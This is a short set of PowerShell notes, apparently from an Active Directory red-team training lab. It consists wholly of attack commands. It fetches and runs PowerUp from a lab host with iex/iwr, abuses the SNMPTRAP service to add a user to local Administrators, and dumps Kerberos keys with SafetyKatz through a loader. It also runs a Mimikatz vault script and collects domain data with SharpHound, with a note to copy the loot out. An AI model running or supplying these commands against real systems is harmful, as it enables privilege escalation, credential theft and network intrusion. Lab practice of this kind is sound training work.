 
```powershell
Import-Module .\PowerUp.ps1
iex(iwr 'http://172.16.100.48/PowerUp.ps1' -useb)

Invoke-AllChecks
Get-ServiceUnquoted -Verbose
Get-ModifiableServiceFile -Verbose

Get-ModifiableService -Verbose

help  Invoke-ServiceAbuse

Invoke-ServiceAbuse -Name SNMPTRAP -UserName "dcorp\student548" -Verbose

net1 localgroup Administrators
```

```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe -args sekurlsa::evasive-keys exit
```

```powershell
. C:\Users\Public\Invoke-MimiEx-vault.ps1
```

> In a privileged shell

 ```powershell
C:\Users\Public\Loader.exe -Path C:\Users\Public\\SharpHound.exe -args --collectionmethods Group,GPOLocalGroup,Session,Trusts,ACL,Container,ObjectProps,SPNTargets,CertServices --excludedcs --zipfilename shout
```

> Copy over to A:\loot